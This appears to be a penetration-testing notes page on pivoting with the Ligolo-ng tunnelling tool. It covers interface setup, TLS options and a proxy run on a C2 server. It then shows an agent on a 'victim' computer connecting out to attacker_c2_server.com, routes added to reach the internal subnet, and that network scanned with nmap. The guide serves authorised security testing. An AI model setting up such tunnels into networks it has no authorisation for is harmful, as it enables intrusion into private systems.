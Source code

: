 ```yaml
---
icon: l
---
```


# Pivoting using Ligolo-Ng

### Prerequisites <a href="#prerequisites" id="prerequisites"></a>

#### Linux <a href="#linux" id="linux"></a>

When using Linux, you need to create a tun interface on the Proxy Server (C2):

```
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

Tip

On **Ligolo-ng >= v0.6**, you can now use the `interface_create` command to create a new interface! No need to use ip tuntap!

```
ligolo-ng » interface_create --name "evil-cha"
INFO[3185] Creating a new "evil-cha" interface...       
INFO[3185] Interface created!
```

#### Windows <a href="#windows" id="windows"></a>

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (make sure you use the right architecture).

### TLS Options <a href="#tls-options" id="tls-options"></a>

**Using Let's Encrypt Autocert**

When using the `-autocert` option, the proxy will automatically request a certificate (using Let's Encrypt) for _attacker\_c2\_server.com_ when an agent connects.

{% hint style="warning" %}
**Info**

Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval
{% endhint %}

**Using your own TLS certificates**

If you want to use your own certificates for the proxy server, you can use the `-certfile` and `-keyfile` parameters.

**Automatic self-signed certificates**

The _proxy/relay_ can automatically generate self-signed TLS certificates using the `-selfcert` option.

_**Validating self-signed certificates fingerprints (recommended)**_

When running selfcert, you can run the `certificate_fingerprint` command to print the currently used certificate fingerprint.

```
ligolo-ng » certificate_fingerprint 
INFO[0203] TLS Certificate fingerprint for ligolo is: D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC 
```

On the agent, you can then connect using the fingerprint provided by the Ligolo-ng proxy.

```
ligolo-agent -connect 127.0.0.1:11601 -v -accept-fingerprint D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC                                               nchatelain@nworkstation
INFO[0000] Connection established                        addr="127.0.0.1:11601"
```



{% hint style="warning" %}
**Warning**

By default, the `ligolo` domain name is used for TLS Certificate generation. You can change the domain by using the -selfcert-domain \[domain] option at startup.
{% endhint %}

_**Ignoring all certificate verification (for lab/debugging)**_

To ignore all security mechanisms, the `-ignore-cert` option can be used with the _agent_.

{% hint style="warning" %}
**Warning**

Beware of man-in-the-middle attacks! This option should only be used in a test environment or for debugging purposes.
{% endhint %}

### Using Ligolo-ng <a href="#using-ligolo-ng" id="using-ligolo-ng"></a>

![Basic Tunnel](https://docs.ligolo.ng/assets/graphs/BasicTunnel.svg)

#### Start the Ligolo-ng proxy server <a href="#start-the-ligolo-ng-proxy-server" id="start-the-ligolo-ng-proxy-server"></a>

Start the _proxy_ server on your Command and Control (C2) server (default port 11601):

```
$ ./proxy -h # Help options
$ ./proxy -autocert # Automatically request LetsEncrypt certificates
$ ./proxy -selfcert # Use self-signed certificates
```

#### Start the agent <a href="#start-the-agent" id="start-the-agent"></a>

Start the _agent_ on your target (victim) computer (no privileges are required!):

```
$ ./agent -connect attacker_c2_server.com:11601
```

{% hint style="warning" %}
**Info**

If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.
{% endhint %}

A session should appear on the _proxy_ server.

```
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

Use the `session` command to select the _agent_.

```
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

#### Start the tunneling <a href="#start-the-tunneling" id="start-the-tunneling"></a>

Start the tunnel on the proxy, using the `evil-cha` interface name.

```
[Agent : nchatelain@nworkstation] » tunnel_start --tun evil-cha
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```



{% hint style="warning" %}
**Info**

On macOS, you need to specify a utun\[0-9] device, like utun4.
{% endhint %}

### Setup routing <a href="#setup-routing" id="setup-routing"></a>

#### Ligolo-ng managed routing <a href="#ligolo-ng-managed-routing" id="ligolo-ng-managed-routing"></a>

#### Manual routing setup <a href="#manual-routing-setup" id="manual-routing-setup"></a>

First, display the network configuration of the agent using the `ifconfig` command:

```
[Agent : nchatelain@nworkstation] » ifconfig 
[...]
┌─────────────────────────────────────────────┐
│ Interface 3                                 │
├──────────────┬──────────────────────────────┤
│ Name         │ wlp3s0                       │
│ Hardware MAC │ de:ad:be:ef:ca:fe            │
│ MTU          │ 1500                         │
│ Flags        │ up|broadcast|multicast       │
│ IPv4 Address │ 192.168.0.30/24             │
└──────────────┴──────────────────────────────┘
```

Then setup routes accordingly to your system:

{% tabs %}
{% tab title="Linux" %}
_Using the terminal:_

```
$ sudo ip route add 192.168.0.0/24 dev ligolo
```

_Or using the Ligolo-ng (>= 0.6) cli:_

```
ligolo-ng » interface_add_route --name evil-cha --route 192.168.2.0/24
INFO[3206] Route created.  
```
{% endtab %}

{% tab title="Windows" %}
```
> netsh int ipv4 show interfaces

Idx     Mét         MTU          État                Nom
---  ----------  ----------  ------------  ---------------------------
 25           5       65535  connected     ligolo

> route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```
{% endtab %}

{% tab title="MacOS (Darwin)" %}
```
$ sudo ifconfig utun4 alias [random_ip] 255.255.255.0
$ sudo route add -net 192.168.2.0/24 -interface utun4
```

You can now access the _192.168.0.0/24_ _agent_ network from the _proxy_ server.

```
$ nmap 192.168.0.0/24 -v -sV -n
[...]
$ rdesktop 192.168.0.123
[...]
```
{% endtab %}
{% endtabs %}





***

## REFERENCES

* [https://docs.ligolo.ng/Quickstart/](https://docs.ligolo.ng/Quickstart/)
* [https://www.stationx.net/how-to-use-ligolo-ng/](https://www.stationx.net/how-to-use-ligolo-ng/)
* [https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
* [https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16](https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16)
* [https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/](https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/)
* [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)
